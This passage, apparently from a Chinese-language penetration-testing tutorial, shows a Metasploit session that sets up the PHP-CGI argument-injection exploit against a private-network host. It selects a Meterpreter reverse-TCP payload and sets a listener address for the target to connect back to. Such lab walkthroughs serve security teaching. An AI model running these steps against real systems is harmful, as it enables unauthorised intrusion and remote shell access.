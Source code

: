 ```

Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf exploit(multi/http/php_cgi_arg_injection) > set RHOST 192.168.6.128
RHOST => 192.168.6.128
```

查看可用的payloads：

```
msf exploit(multi/http/php_cgi_arg_injection) > show payloads
```

我们使用强大的meterpreter：

```
msf exploit(multi/http/php_cgi_arg_injection) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf exploit(multi/http/php_cgi_arg_injection) > show options

Module options (exploit/multi/http/php_cgi_arg_injection):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   PLESK        false            yes       Exploit Plesk
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST        192.168.6.128    yes       The target address
   RPORT        80               yes       The target port (TCP)
   SSL          false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI                     no        The URI to request (must be a CGI-handled PHP script)
   URIENCODING  0                yes       Level of URI URIENCODING and padding (0 for minimum)
   VHOST                         no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  5555             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(multi/http/php_cgi_arg_injection) > set LHOST 172.16.56.1
LHOST => 172.16.56.1
```
